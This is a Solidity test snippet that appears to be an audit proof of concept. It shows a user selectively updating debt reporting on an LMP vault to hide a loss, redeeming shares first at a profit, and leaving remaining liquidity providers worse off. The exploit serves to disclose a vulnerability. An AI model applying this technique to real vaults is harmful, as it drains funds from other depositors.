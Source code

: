 ```solidity

_lmpVault.rebalance(

address(_destVaultTwo),

address(_underlyerTwo),

1000,

address(0),

address(_asset),

1000

);

// the second destVault incurs loss, 10%

_mockRootPrice(address(_underlyerTwo), 0.9 ether);

  

// the first vault incurs some profit, 5%

// so lmpVault is in netLoss of 50 baseAsset

_mockRootPrice(address(_underlyerOne), 2.1 ether);

// malicious updateDebtReporting by alice

address[] memory alteredDestinations = new address[](1);

alteredDestinations[0] = address(_destVaultOne);

vm.prank(alice);

_lmpVault.updateDebtReporting(alteredDestinations);

  

// alice withdraws first

vm.prank(alice);

_lmpVault.redeem(shareBalAlice , alice,alice);

uint finalBalanceAlice = _asset.balanceOf(alice);

emit log_named_uint("final Balance of alice ", finalBalanceAlice);

// protocol also collects its fees

// further wrecking the remaining LPs

emit log_named_uint("Fees shares give to feeSink ", _lmpVault.balanceOf(feeSink));

assertGt( finalBalanceAlice, initialBalanceAlice);

assertGt(_lmpVault.balanceOf(feeSink), 0);

// now updateDebtReporting again but for all DVs

```